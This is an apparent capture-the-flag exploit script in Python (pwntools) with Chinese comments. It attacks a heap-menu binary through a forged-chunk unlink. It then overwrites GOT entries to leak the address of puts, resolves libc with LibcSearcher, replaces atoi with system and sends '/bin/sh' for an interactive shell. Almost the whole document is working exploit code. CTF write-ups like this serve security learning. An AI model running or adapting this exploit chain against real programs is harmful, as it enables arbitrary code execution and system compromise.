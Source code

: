 ```python
bk = head+16-0x10
payload1 = p64(0)+p64(0x30)+p64(fd)+p64(bk)
payload1 = payload1.ljust(0x30,'A')
payload1 += p64(0x30) + p64(0x90)
#将伪造好的chunk2写到相应的内存中
edit(2, len(payload1), payload1)
#free chunk3，由于因为伪造的chunk2导致在free3的时候发现可以向前合并
#故会unlink(2)
free(3)
####第一步完成,导致的结果就是global[2]存的地址不是chunk2的堆地址，而是global[2]本身的地址指针-0x10

####第二步:
#由于这里未开启RELRO，故可以将got表进行更改
#取出一些plt表和got表地址
free_got = elf.got['free']
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
atoi_got = elf.got['atoi']

payload = 'a'*16 + p64(free_got) + p64(puts_got) + p64(atoi_got)
#向global[2]存储的地址上写入payload
edit(2,len(payload),payload)
#因为上面payload的写入，此时global[1]中存储的地址是free_got的地址
#向指向free函数的got表地址中写入puts函数的plt地址
edit(1,len(p64(puts_plt)),p64(puts_plt))
#正常来讲，free(2)表示free chunk2，此时chunk2的地址，即global[2]存储的是puts函数的got表地址
#由于往free的got表中写入了puts函数的plt地址，故在执行free(2)的时候会执行puts(puts@got)
free(2)
#s.recvline()
#puts_real = u64(s.recvline(keepends=False)[0:8].ljust(8,'x00'))
# puts_real = s.recvuntil('\nOK\n', drop=True).ljust(8, '\x00')
# puts_real = u64(puts_real)
#接收puts函数的真实地址
puts_real = u64(s.recvuntil('\x7f')[-6:]+'\x00\x00')
#puts_real = u64(s.recvuntil('\nOK\n', drop=True).ljust(8, '\x00'))
log.success("Puts_real:"+hex(puts_real))

#本来给了libc，但是没打通本地，故使用一下LibcSearcher
libc = LibcSearcher('puts',puts_real)
offset = puts_real - libc.dump('puts')
log.success("Offset:"+hex(offset))
system_addr = libc.dump('system')+offset
log.success("System_addr:"+hex(system_addr))
#此时chunk3的地址即global[3]表示的是atoi_got，这里将system函数的真实地址写入atoi对应的got表中，覆盖atoi真实地址
edit(3,len(p64(system_addr)),p64(system_addr))
#这里就是while循环的输入，然后将输入的字符串作为参数执行atoi函数，但是这里已经更改成为system函数地址
s.sendline("/bin/sh")
s.interactive()
```

